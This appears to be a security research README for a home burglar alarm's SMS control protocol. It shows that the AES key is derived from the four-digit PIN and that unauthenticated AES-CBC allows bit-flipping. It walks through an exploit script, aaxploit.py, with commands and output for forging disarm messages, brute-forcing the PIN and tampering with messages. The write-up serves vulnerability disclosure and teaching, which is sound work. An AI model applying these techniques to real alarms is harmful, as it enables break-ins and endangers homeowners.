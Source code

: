 Alert Alarm SMS exploit
#######################

Observation
***********
When turning off an active alarm (ARMED_HOME) an SMS is created similar to
this.

.. figure:: images/aa_initial_sms.png
        :figclass: align-center


After reverse engineering one can see that the 64 bytes hex string is made up of
two parts. The first part is the IV, which is a random number (coming from
SHA1PRNG) and the second part is the actual message.

.. code-block:: none

           32 bytes   32 bytes
        +-----------+----------+
        | IV        | Message  |
        +-----------+----------+

The encryption in use is AES-CBC and the key used for encryption consists of a
string like this:

.. code-block:: none

        000000000000xxxx

Where "xxxx" is the pin code. This means the the key space is reduced from
128-bits, to only 9999 combinations. The format of the decrypted message is as
follows:

.. code-block:: none

        Bytes:            1   1   1      2       1     2        2        2         2          2   = 16 bytes
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                |SMS Version| i | j | year | month-1 | day | hour | minute | user id | \x00\x00 |
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                                              (hex)

Here ``i`` is the alarm on (0) off (1) and ``j`` is (TODO).


Unconfirmed potential issues
****************************
- Is the solution susceptible to reply attacks? Is is possible to send the same
  message more than once?


Open questions
**************
- Why leverage on SMS from the app, when there already must be a data connection
  with the app?

- 

Script usage
************
Calling with script with no arguments lists all parameters. But to make it
easier to follow along, we've put together a couple of examples below.

Generate a SMS from scratch
===========================
This takes a default data string and creates a valid SMS string, i.e, a real
usable string that will turn on or off the alarm.

.. code-block:: bash

        $ ./aaxploit.py -e -p 1234
        [INFO]: Mode: encryption
        [INFO]: Original SMS:     False
        [INFO]: Msg:              32303131393532313039303230310000
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Crafted SMS:      324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        

Decrypt a SMS from the phone
============================
As an example, take the strings from the example above (having that said, copy
a SMS string from a phone works just as well). In this example we already know
the pin code to turn on/off the alarm and provide that as a parameter.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -p 1234
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
        [INFO]:       2   0   1     19     0x5    21     09       02        01

Bruteforce an encrypted SMS
===========================
Here we pretend that we don't know the key (pin code to turn on/off the alarm),
but we have gotten hold of the encrypted SMS. By running the bruteforce attack
we try to find the correct key and pin to turn on/off the alarm.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -b
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Running bruteforce ...
        [INFO]: Probably the correct key: 30303030303030303030303031323334 gives pin: 1234

As we can see, we found the correct key/pin code! Note that the pin code is the
same as used on the real physical burgular alarm at the owner house. If, if a
thief break in he can enter this pin code and the alarm never goes off.

Flip a bit in the encrypted message
===================================
Since AES-CBC is malleable, we can flip a bit in the IV which will be directly
reflected on the decrypted message. A man in the middle can use this to either
change a message from "Turn on alarm" to a "Turn off alarm" or vice versa.
I.e., notice that here one doesn't even have to decrypt the message.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d --flip 112 
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Modified SMS:     324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713

if we take the "Modified SMS" and decrypt it, we can see that the "i" field has
been changed (from "0" to "1", compare with message above).

.. code-block:: bash

       $ ./aaxploit.py --input 324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -p 1234 
       [INFO]: Mode: decryption
       [INFO]: Original SMS:     324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
       [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
       [INFO]: IV:               324f8a68e383f8d6f3117af17d7638fb
       [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
       [INFO]:       2   1   1     19     0x5    21     09       02        01
                        /\
                         |----- changed from 0 to 1

Summary
*******
Weaknesses:
- AES key (128bits) is made up from "000000000000" + the pin code, i.e, brute
  force is trivial.

- Using plain AES-CBC with no integrity checking. This means that man in the
  middle can modify messages. AES-CBC is malleable, so changing a bit in the IV
  changes a bit in the plaintext/ciphertext. Which means it is possible for a
  man in the middle to change an SMS meant to turn on the alarm to instead turn
  it off by just flipping some bits in the IV.

The security of the solution relies on
  a) the pin code and
  b) the SMS senders phone number
  c) that no-one is able to get hold of the SMS sent.

In fact, one can argue that the security only relies on "c", since if one get
hold of "c", then it's trivial to figure out "a", that is basically what
the script aaxploit.py does. "b" on the other hand is typically available in
phonebooks etc, i.e., it's usually not hard to figure out the phone numbers to
the owner of a house.

